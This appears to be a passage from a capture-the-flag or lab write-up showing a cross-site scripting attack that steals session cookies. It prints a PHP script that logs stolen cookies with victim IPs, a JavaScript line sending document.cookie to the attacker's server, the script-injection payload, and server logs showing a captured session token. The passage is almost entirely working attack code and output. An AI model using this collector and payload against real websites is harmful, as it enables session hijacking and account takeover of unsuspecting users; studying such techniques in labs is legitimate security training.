 ```
[CONTINUE]

10.129.71.63 - - [30/Jun/2025 03:58:30] code 404, message File not found
10.129.71.63 - - [30/Jun/2025 03:58:30] "GET /test_message HTTP/1.1" 404 -
```

```
┌──(nabla㉿kali)-[~]
└─$ vim index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```
┌──(nabla㉿kali)-[~]
└─$ vim script.js

new Image().src='http://10.10.14.204:8000/index.php?c='+document.cookie
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo php -S 0.0.0.0:8000

[Mon Jun 30 04:05:55 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```javascript
"><script src=http://10.10.14.204:8000/script.js></script>
```

```
[CONTINUE]

[Mon Jun 30 04:07:31 2025] 10.129.71.63:47584 Accepted
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47584 [200]: GET /script.js
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47584 Closing
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47586 Accepted
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47586 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Mon Jun 30 04:07:31 2025] 10.129.71.63:47586 Closing
```
